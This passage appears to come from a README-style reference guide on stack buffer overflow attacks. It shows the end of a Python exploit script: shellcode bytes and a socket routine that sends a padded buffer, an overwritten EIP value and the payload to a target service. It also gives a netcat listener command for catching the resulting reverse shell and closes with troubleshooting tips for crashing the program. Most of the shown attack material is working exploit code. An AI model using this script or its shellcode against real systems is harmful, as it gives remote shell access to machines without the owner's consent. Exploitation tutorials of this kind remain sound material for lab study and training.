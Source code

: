 ```python
payload += b"\xe0\xfe\xde\x81\xec\x2a\xa9\x6d\x5c\x83\xec\x92"
payload += b"\x51\x43\xf9\xeb\x8f\xf3\x06\x26\x14\x13\xe5\xe2"
payload += b"\x61\xbc\xb0\x67\xc8\xa1\x42\x52\x0f\xdc\xc0\x56"
payload += b"\xf0\x1b\xd8\x13\xf5\x60\x5e\xc8\x87\xf9\x0b\xee"
payload += b"\x34\xf9\x19"

try:
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect((ip, port))
      s.settimeout(timeout) # Helpful for stopping when overflow occurs
      print("Fuzzing with {} bytes".format(len(string)) + "and EIP as %s" % EIP)

      # Send buffer + EIP + payload + "press enter"
      s.send(bytes(prefix, "latin1") + bytes(string, "latin1") + bytes(EIP, "latin1") +  bytes(padding, "latin1") + payload + bytes(return_value, "latin1")) 
      s.recv(1024) 
      s.close()
except:
    print("Fuzzing crashed at {} bytes".format(len(string)))
    sys.exit(0)
```

Make sure to start up your netcat listener `nc -lvnp 4444` 

Start the executable without Immunity running. It should generate a reverse shell similar to below

![alt text](images/bufferoverflowreverseshell.png)

# Troubleshooting

It's important to be able to understand why your BO attack isn't working. As this is only a reference guide, it's important to look into how buffer overflow works before attempting them. Interacting with the program manually through netcat is an excellent way to troubleshoot problems with scripts. Here are some problems I've encounter and what I did to resolve them

### The program won't crash and the script keeps sending incremental strings to the buffer without stopping
1. Try to determine if the program requires a command or other function *before* the buffer string using netcat
2. Send a long string manually. Use netcat to open the port and then copy the 'A's into the command line. You can generate these A'a using `python3 -c "print('A'*3000)" `. If you can't crash the program manually, you probably won't be able to do it through the script

### The program crashes but doesn't over write EIP with 0x41414141
This isn't a major concern initially, the test really comes when you try to overwrite EIP with 'BBBB'. However you can try the below to overwrite EIP also
1. Try to change buffer length from 100 to a larger number e.g 500



